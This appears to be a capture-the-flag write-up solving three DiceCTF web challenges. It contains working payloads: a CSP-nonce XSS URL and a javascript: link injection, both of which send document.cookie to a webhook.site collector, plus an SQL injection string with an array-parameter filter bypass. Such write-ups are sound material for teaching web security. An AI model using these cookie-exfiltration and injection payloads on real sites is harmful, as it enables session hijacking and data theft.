**[web/Babier CSP](https://babier-csp.dicec.tf/)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Babier_CSP/index.js)  
In line 8, it sets
```python
const NONCE = crypto.randomBytes(16).toString('base64');
```
and in line 26
```python
res.setHeader("Content-Security-Policy", `default-src none; script-src 'nonce-${NONCE}';`);
```
This code just run 1 time, so NONCE doesn't change after run server, view source, we have nonce
```
+ZSveZwTAUqC6Pt9p+rgUg==
```
Host a server using webhook.site, redirect and get the cookie
```javascript
https://babier-csp.dicec.tf/?name=%3Cscript%20nonce=%2BZSveZwTAUqC6Pt9p%2BrgUg==%3Elocation.href=%22https://webhook.site/c23c6a4a-1ad6-420d-a488-033f8762e6ed/?data=%22%2Bdocument.cookie%3C/script%3E
```
We got the secret
```
secret=4b36b1b8e47f761263796b1defd80745
```
Go to https://babier-csp.dicec.tf/4b36b1b8e47f761263796b1defd80745/
```
dice{web_1s_a_stat3_0f_grac3_857720}
```
**[web/Missing Flavortext](https://missing-flavortext.dicec.tf)**  
We have source code [index.js](https://lhtthao0430.github.io/web/dice/Missing_Flavortext/index.js)  
In line 34, it have filter ', let bypass it by using array input
```
username[]
```
It's a simple SQL Injection
```sql
admin' or '1' = '
```
We got the flag
```
dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}
```

**[web/Web Utils](https://web-utils.dicec.tf/)**  
We have source code [app.zip](https://lhtthao0430.github.io/web/dice/Web_Utils/app.zip)  
In [app/route/api.js]((https://lhtthao0430.github.io/web/dice/Web_Utils/app/route/api.js), line 39 we have spread operator
```javascript
database.addData({ type: 'paste', ...req.body, uid });
```
[View source](https://web-utils.dicec.tf/view/iuwnxMEs), in line 11 we have
```javascript
if (type === 'link') return window.location = data;
```
We can change the req.body when createPaste to
```json
{"data":"some data","type":"link"}
```
It will understand that is a link and run window.location = data;  
Host a server using webhook.site, redirect and get the cookie
```json
{"data":"javascript:location.href='https://webhook.site/cf48efac-98a3-46d2-83af-141e6d39f133?data='+document.cookie","type":"link"}
```
Send the link to [Admin Bot](https://us-east1-dicegang.cloudfunctions.net/ctf-2021-admin-bot?challenge=web-utils) and get the flag
```
dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}
```